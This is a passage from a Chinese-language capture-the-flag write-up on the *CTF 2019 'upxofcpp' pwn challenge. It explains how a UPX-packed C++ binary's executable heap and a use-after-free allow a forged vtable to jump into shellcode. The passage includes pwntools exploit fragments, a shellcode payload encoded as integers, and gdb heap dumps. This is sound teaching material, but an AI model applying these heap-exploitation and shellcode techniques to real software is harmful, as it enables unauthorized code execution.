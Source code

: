 ### upxofcpp
参考链接：https://github.com/sixstars/starctf2019/tree/master/pwn-upxofcpp
https://xz.aliyun.com/t/5006#toc-14

这道题在比赛的时候没有做出来，其中主要是看cpp代码很难受，不过也算看懂了大概，但是实在是没有注意到heap还是rwx的。。。
小知识点：
用upx打包的程序，你会发现许多rwx内存区域，包括堆（加壳的程序中堆是rwx的）
Refer : https://github.com/upx/upx/issues/81

### 利用思路
+ upx加壳，主程序空间可读可写可执行
+ free的时候没有清空指针
+ node结构体中存在指向函数调用的func_table,通过构造使得func_table指到堆，使得*func_table的show函数指向堆上，在show函数指向的堆上构造shellcode
+ 补充：主要是伪造vtable，通过free之后的fastbin指向地址伪造vtable，其中vtable地址偏移0x10就是call show的相关函数，劫持这个0x10的偏移位heap地址，即劫持到show的控制流从而跳转到heap上去执行代码，而heap上市rwx所以就可以直接执行shellcode

下面是vtable的情况：

```
.data.rel.ro:0000000000202DB8 vtable          dq offset default       ; DATA XREF: add+1B9↑o
.data.rel.ro:0000000000202DC0                 dq offset remove_helper
.data.rel.ro:0000000000202DC8                 dq offset show_helper
```

### 调试方法
使用加壳的文件getshell，使用已经脱壳的文件进行调试即可。

### 调试过程

```
new(0,2,2)
p.sendlineafter('Your choice:','1')
p.sendlineafter('Index:','1')
p.sendlineafter('Size:',str(6))
'''
push rax
pop rsi
push rcx
push rcx
pop rax
pop rdi
syscall
'''
payload = '0\n'*2 + str(0x51515e50)+'\n' + str(0x53415f58)+'\n' + str(0x00050f5a) +'\n' + str(0xdead)+'\n'
p.sendafter('Input 6 integers, -1 to stop:',payload)
new(2,2,2)
```

before free(1)

```
gdb-peda$ x /30xg 0x5616d5cfec10
0x5616d5cfec10:	0x0000000000000000	0x0000000000000021
0x5616d5cfec20:	0x00005616d4a56db8	0x00005616d5cfec40
0x5616d5cfec30:	0x0000000000000002	0x0000000000000021
0x5616d5cfec40:	0x0000000200000002	0x0000000000000000
0x5616d5cfec50:	0x0000000000000000	0x0000000000000021
0x5616d5cfec60:	0x00005616d4a56db8	0x00005616d5cfec80
0x5616d5cfec70:	0x0000000000000006	0x0000000000000021
0x5616d5cfec80:	0x0000000000000000	0x53415f5851515e50
0x5616d5cfec90:	0x0000dead00050f5a	0x0000000000000021
0x5616d5cfeca0:	0x00005616d4a56db8	0x00005616d5cfecc0
0x5616d5cfecb0:	0x0000000000000002	0x0000000000000021
0x5616d5cfecc0:	0x0000000200000002	0x0000000000000000
0x5616d5cfecd0:	0x0000000000000000	0x0000000000020331
```